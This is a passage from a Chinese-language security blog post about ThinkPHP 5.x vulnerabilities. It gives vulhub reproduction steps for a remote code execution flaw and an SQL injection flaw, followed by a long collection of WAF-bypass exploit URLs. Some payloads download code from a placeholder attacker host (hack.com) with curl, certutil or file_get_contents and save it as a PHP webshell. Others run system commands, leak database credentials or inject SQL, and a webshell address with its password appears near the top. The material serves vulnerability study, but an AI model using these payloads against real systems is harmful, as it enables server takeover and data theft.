[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203402281-1627543486.png)

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203416070-1006870976.png)

http://192.168.1.21:8080//peiqi.php Pass:peiqi

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203740054-297120048.png)

## 4.3 ThinkPHP 5.x 远程代码执行漏洞2

### 4.3.1 漏洞概要

漏洞名称：ThinkPHP 5.0.x-5.1.x远程代码执行漏洞

参考编号：无

威胁等级：严重

影响范围：ThinkPHP v5.0.x < 5.0.23,ThinkPHP v5.1.x < 5.0.31

漏洞类型：远程代码执行漏洞

利用难度：容易

### 4.3.2 漏洞描述

2019年1月11日，某安全团队公布了一篇ThinkPHP
5.0.远程代码执行漏洞文档，公布了一个ThinkPHP 5.0.远程代码执行漏洞。文章中的该漏洞与2018年12月的ThinkPHP 
5.0.*远程代码执行漏洞原理相似，攻击者可利用该漏洞在一定条件下获取目标服务器的最高权限。后经研究，在一定条件下，ThinkPHP 
5.1.x版本也存在该漏洞，在满足条件的情况下，攻击者可利用该漏洞执行任意代码。

### 4.3.3 漏洞分析 

该漏洞的漏洞关键点存在于thinkphp/library/think/Request.php文件中：

分析过程： [ThinkPHP 5.x 远程命令执行漏洞分析与复现 | PHP 技术论坛 (learnku.com)](https://learnku.com/articles/21227)

### 4.3.4 漏洞复现

#### 环境搭建

/vulhub/thinkphp/5.0.23-rce

docker-compose up -d

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203755986-883249315.png)

#### 验证漏洞

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203806079-1100169375.png)

命令执行

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203817889-1159932872.png)

getshell

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203828245-2084866338.png)

## 4.4 Thinkphp5 SQL注入漏洞和敏感信息泄露漏洞

### 4.4.1 漏洞概要

漏洞名称：Thinkphp5 SQL注入漏洞和敏感信息泄露漏洞

参考编号：无

威胁等级：严重

影响范围：ThinkPHP < 5.1.23

漏洞类型：SQL注入漏洞和敏感信息泄露漏洞

利用难度：容易

### 4.4.2 漏洞描述

传入的某参数在绑定编译指令的时候又没有安全处理，预编译的时候导致SQL异常报错。然而thinkphp5默认开启debug模式，在漏洞环境下构造错误的SQL语法会泄漏数据库账户和密码。

### 4.4.3 漏洞分析

分析过程： [ThinkPHP5 SQL注入漏洞 && 敏感信息泄露【通过】 - 账号审核 - 90Sec](https://forum.90sec.com/t/topic/407)

 

### 4.4.4 漏洞复现

#### 环境搭建

/vulhub/thinkphp/in-sqlinjection docker-compose up -d

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203844896-936327005.png)

#### 验证漏洞

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203857163-724498185.png)

# 0x05 漏洞总结

下面是别人总结绕过的，未测试。

## 5.1 thinkphp 5.0.5

```plain
waf对eval进行了拦截
禁止了assert函数
对eval函数后面的括号进行了正则过滤
对file_get_contents函数后面的括号进行了正则过滤

http://www.xxxx.com/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=2.php&vars[1][1]=<?php /*1111*//***/file_put_contents/*1**/(/***/'index11.php'/**/,file_get_contents(/**/'https://www.hack.com/xxx.js'))/**/;/**/?>
```

## 5.2 thinkphp 5.0.10

```plain
(post)public/index.php?s=index/index/index
(data)s=whoami&_method=__construct&method&filter[]=system 
```

## 5.3 thinkphp 5.0.11

 

```plain
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=curl https://www.hack.com/xxx.js -o ./upload/xxx.php
```

## 5.4 thinkphp 5.0.14

```bash
eval（''）和assert（''）被拦截，命令函数被禁止
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo();
http://www.xxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_GET[1])&1=call_user_func_array("file_put_contents",array("3.php",file_get_contents("https://www.hack.com/xxx.js")));
 
php7.2
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=1.txt&vars[1][1]=1
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index111.php',file_get_contents('https://www.hack.com/xxx.js'));?>写进去发现转义了尖括号
通过copy函数
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=copy&vars[1][0]= https://www.hack.com/xxx.js&vars[1][1]=112233.php
```


## 5.5 thinkphp 5.0.18

 

```bash
windows
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][0]=1
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo()
 
使用certutil
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=passthru&vars[1][0]=cmd /c certutil -urlcache -split -f https://www.hack.com/xxx.js uploads/1.php
 
由于根目录没写权限，所以写到uploads
```

## 5.6 thinkphp 5.0.21

 

```plain
http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 
http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```


## 5.7 thinkphp 5.0.22

 

```plain
http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username
http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password
http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```


##  5.8 thinkphp 5.0.23

 

```plain
(post)public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al
Debug模式
(post)public/index.php (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx
```


## 5.9 thinkphp 5.1.18

 

```plain
http://www.xxxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index_bak2.php',file_get_contents('https://www.hack.com/xxx.js'));?>
 
所有目录都无写权限,base64函数被拦截
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_POST[1])
```


## 5.10 thinkphp 5.1.*

```plain
http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1
http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd
http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd
http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd
```

## 5.11 thinkphp 5.1.*和5.2*和5.0*

 

```plain
 (post)public/index.php (data)c=exec&f=calc.exe&_method=filter 
```

## 5.12 thinkphp 未知版本

```plain
?s=index/\think\module/action/param1/${@phpinfo()}
?s=index/\think\Module/Action/Param/${@phpinfo()}
?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}
index.php?s=/home/article/view_recent/name/1'
header = "X-Forwarded-For:1') and extractvalue(1, concat(0x5c,(select md5(233))))#"
index.php?s=/home/shopcart/getPricetotal/tag/1%27
index.php?s=/home/shopcart/getpriceNum/id/1%27 index.php?s=/home/user/cut/id/1%27 index.php?s=/home/service/index/id/1%27 index.php?s=/home/pay/chongzhi/orderid/1%27 index.php?s=/home/pay/index/orderid/1%27 index.php?s=/home/order/complete/id/1%27 index.php?s=/home/order/complete/id/1%27 index.php?s=/home/order/detail/id/1%27 index.php?s=/home/order/cancel/id/1%27 index.php?s=/home/pay/index/orderid/1%27)%20UNION%20ALL%20SELECT%20md5(233)--+ POST /index.php?s=/home/user/checkcode/ HTTP/1.1 Content-Disposition: form-data; name="couponid"1') union select sleep('''+str(sleep_time)+''')#
```

## 5.13 当php7以上无法使用Assert的时候用

 

```plain
_method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=包含&x=phpinfo();
有上传图片或者日志用这个包含就可以
```

# 参考

1. [thinkphp漏洞分析与总结 · Drunkmars's Blog](https://drunkmars.top/2021/04/14/thinkphp漏洞分析和总结/)
2. [thinkphp漏洞分析和总结 - 文章整合 (chowdera.com)](https://chowdera.com/2021/04/20210414142254507D.html#)
3. [ThinkPHP框架漏洞总结 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/286234.html)
4. [ThinkPHP 5.x RCE分析_0verWatch的博客-CSDN博客_rce分析](https://blog.csdn.net/u011377996/article/details/87362329)
5. [ThinkPHP 5.x 远程命令执行漏洞分析与复现 | PHP 技术论坛 (learnku.com)](https://learnku.com/articles/21227)
6. [ThinkPHP5 SQL注入漏洞 && 敏感信息泄露【通过】 - 账号审核 - 90Sec](https://forum.90sec.com/t/topic/407)

